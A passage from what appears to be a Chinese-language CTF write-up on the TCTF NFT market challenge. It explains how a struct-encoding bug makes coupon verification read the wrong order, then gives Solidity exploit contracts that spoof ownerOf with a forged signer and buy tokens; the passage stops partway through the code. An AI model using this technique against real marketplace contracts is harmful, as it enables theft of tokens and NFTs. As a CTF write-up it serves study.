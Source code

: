 换句话说就是在调用 verifyCoupon 方法时其接收到的 scoupon 的前 32 字节会变成全 0，而对应结构体中这个位置刚好是 orderId，这就导致了无论如何 verifyCoupon 的始终是第一个订单上的信息。因此我们订单列表的顺序就可以是：

- 初始：1 2 3
- 新建：1 2 3 4
- 买下 1：4 2 3
- 买下 2: 4 3

所以最终验证的还是我们自己订单上的信息，而 owner 原本是攻击合约，不过签署者只能是用户账户，所以需要伪造一下，用一个用户账户签署得到签名，并在 ownerOf 的时候返回这个签署者地址（这样 ownerOf 方法还是 view 的，可以 staticcall）

???+ answer "核心代码"
    ```solidity title="ExploitNFT"
    contract ExploitNFT is Context, ERC165 {
        ...

        address public fake_issuer;

        function set_fake_issuer(address src) public {
            fake_issuer = src;
        }

        function ownerOf(uint256 tokenId) public virtual  returns (address) {
            if (fake_issuer != address(this)) {
                address fake = fake_issuer;
                return fake;
            } else {
                address owner = _owners[tokenId];
                return owner;
            }
        }

        ...
    }
    ```
    ```solidity title="Exploit"
    contract Exploit {
        TctfMarket public market;
        TctfNFT public myNFT;
        ExploitNFT public expNFT;
        address public issuer;

        constructor(address chal, address issuer_) {
            issuer = issuer_;
            market = TctfMarket(chal);
            myNFT = new TctfNFT();
            expNFT = new ExploitNFT("ExploitNFT", "ENFT", chal);
        }

        function airdrop() public {
            market.tctfToken().airdrop();
        }

        function buyToken1() public returns (bool) {
            market.tctfToken().approve(address(market), 1);
            market.purchaseOrder(0);
            return market.tctfNFT().ownerOf(1) == address(this);
        }
